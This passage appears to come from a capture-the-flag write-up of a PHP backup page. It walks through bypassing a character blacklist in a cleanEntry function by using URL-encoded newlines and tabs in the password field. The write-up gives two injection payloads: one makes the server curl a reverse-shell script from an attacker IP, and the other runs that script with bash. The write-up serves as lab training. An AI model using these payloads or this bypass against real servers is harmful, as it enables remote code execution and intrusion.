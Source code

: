 ```php
            echo "<h3>Output:</h3><pre>" . htmlspecialchars($logContents) . "</pre>";
            echo "</div>";
        } else {
            echo "<div class='error-message'>Error creating the backup.</div>";
        }

        unlink($logFile);
    }
}
?>

 </div>
        
        <?php if (isset($backupMessage)) { ?>
            <div class="message"><?php echo $backupMessage; ?></div>
        <?php } ?>
    </div>
</body>
</html>
```

## Command Injection

By the looks of it, it seems like we have a command injection on the `password` but we need to bypass the `cleanEntry` function first.

```php
function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];

    foreach ($blacklist_chars as $char) {
        if (strpos($entry, $char) !== false) {
            return false; // Malicious input detected
        }
    }

    return htmlspecialchars($entry, ENT_QUOTES, 'UTF-8');
}
```

Many characters are blacklisted in the `cleanEntry` function, but we can bypass them by using the newline `\n` character because in linux each command is separated by a newline `\n` character. To execute more complex command we can use the tab `\t` character to separate them because spaces are not allowed. I will use two payload to deliver my reverse shell script and then execute the script. The payload must be URL encoded `%0a` for new line and `%09` for tab.

```bash
password=%0acurl%0910.10.14.79/x%09-o%09/tmp/x%0a&backup=
```

```bash
password=%0abash%09/tmp/x%0a&backup=
```

